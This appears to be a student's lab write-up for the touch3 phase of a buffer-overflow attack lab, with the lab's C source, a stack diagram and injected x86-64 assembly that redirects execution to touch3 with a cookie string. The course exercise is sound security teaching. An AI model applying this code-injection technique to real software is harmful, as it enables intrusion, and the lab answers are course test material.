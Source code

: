 > from here we use the code from SE101 lab

```c
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4   char cbuf[110];
5   /* Make position of check string unpredictable */
6   char *s = cbuf + random() % 100;
7   sprintf(s, "%.8x", val);
8   return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13   vlevel = 3; /* Part of validation protocol */
14   if (hexmatch(cookie, sval)) {
15 	   printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 	   validate(3);
17   } else {
18 	   printf("Misfire: You called touch3(\"%s\")\n", sval);
19 	   fail(3);
20   }
21 	 exit(0);
22 }
```

Since hexmatch will overwrite the buffer, we have to store the string into a safe place which can be above address of  

```
+---------------------------------------------+
|              address of string              |
+---------------------------------------------+
|  start address of injected code(0x5566b658) |
+---------------------------------------------+  0x5566b680
| 0x28(40) buf(will be overwrite by hexmatch) |
|       but we can inject our code here       |
+---------------------------------------------+  0x5566b658
|       return address of Puts(syscall)       |
+---------------------------------------------+
```

injected code is

```assembly
movq $address_of_string,%rdi # 0x5566b680 + 0x8 = 0x5566b688
pushq $address_of_touch3 # 0x401c73
retq
```

ascii code of my cookie(0x2a328fb5)

```
0x32 0x61 0x33 0x32 0x38 0x66 0x62 0x35
```
